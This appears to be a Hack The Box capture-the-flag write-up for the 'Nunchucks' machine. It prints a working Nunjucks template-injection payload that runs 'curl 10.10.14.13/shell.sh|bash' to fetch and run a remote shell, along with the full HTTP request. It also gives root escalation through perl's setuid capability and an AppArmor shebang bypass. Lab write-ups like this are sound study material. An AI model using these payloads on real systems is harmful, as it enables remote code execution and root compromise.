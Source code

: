 # Nunchucks

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.252
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 04:51 EDT
Nmap scan report for 10.129.95.252
Host is up (0.016s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We have to add `nunchucks.htb` to our `/etc/hosts` file to access port 80.

### Web Enum

Port 80 reveals an ecommerce platform.

<figure><img src="../../../.gitbook/assets/image (676).png" alt=""><figcaption></figcaption></figure>

Registering is closed:

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website and it looks rather static, so we can do some subdomain and directory fuzzing. Using `wfuzz`, I found out there was a `store` subdomain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.nunchucks.htb' --hw=2271 https://nunchucks.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000037:   200        101 L    259 W      4028 Ch     "store"
```

### Email SSTI --> Shell

This was another store:

<figure><img src="../../../.gitbook/assets/image (37) (7).png" alt=""><figcaption></figcaption></figure>

When we submit an email, it would print it back on the screen.

<figure><img src="../../../.gitbook/assets/image (39) (10).png" alt=""><figcaption></figcaption></figure>

The box name was a hint that it was using NUNJUCKS, so we can try some SSTI here. We can verify it works by using `{{7*7}}` as part of the email:

<figure><img src="../../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to gain a reverse shell using SSTI for RCE. If we analyse the HTTP traffic, we can see that the emails are being sent to `/api/submit` and processed.&#x20;

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to generate a payload:

{% code overflow="wrap" %}
```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell|bash')")()}}
```
{% endcode %}

Here's the final request I used to get a shell:

{% code overflow="wrap" %}
```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=sS5N1jkHeT3qF-BegglaZv_v
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 141
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close



{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell.sh|bash')\")()}}"
}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### Perl Capabilities

Within the `/opt` directory, there's a few files:

```
david@nunchucks:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Oct 28  2021 .
drwxr-xr-x 19 root root 4096 Oct 28  2021 ..
-rwxr-xr-x  1 root root  838 Sep  1  2021 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28  2021 web_backups
```

The first few lines of `backup.pl` stand out to me:

```perl
david@nunchucks:/opt$ cat backup.pl 
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0);
```

It seems that the perl script is able to run `setuid(0)`. This means that it's probably being run as `root` or it just has the capability to do so. We can enumerate this using `getcap`:

```
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```

This confirms that we can just run this command torun commands and spawn a `root` shell:

```
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/opt$
```

Interestingly, it does not let us spawn a shell. There's an application that is blocking us.&#x20;

### AppArmor Bypass --> Shell

While reading about security programs in Linux, I ran the `aa-status` command and confirmed that AppArmor is running:

```
david@nunchucks:/opt$ aa-status
apparmor module is loaded.
You do not have enough privilege to read the profile set.
```

This program is a kernel enhancement to confine programs to a limited set of resources, thus explaining why `perl` can only run simple commands and we can't spawn shells. There are bugs on Hacktricks that explain how to bypass these using a shebang.

{% embed url="https://bugs.launchpad.net/apparmor/+bug/1911431" %}

We just have to run these:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

<figure><img src="../../../.gitbook/assets/image (29) (8).png" alt=""><figcaption></figcaption></figure>
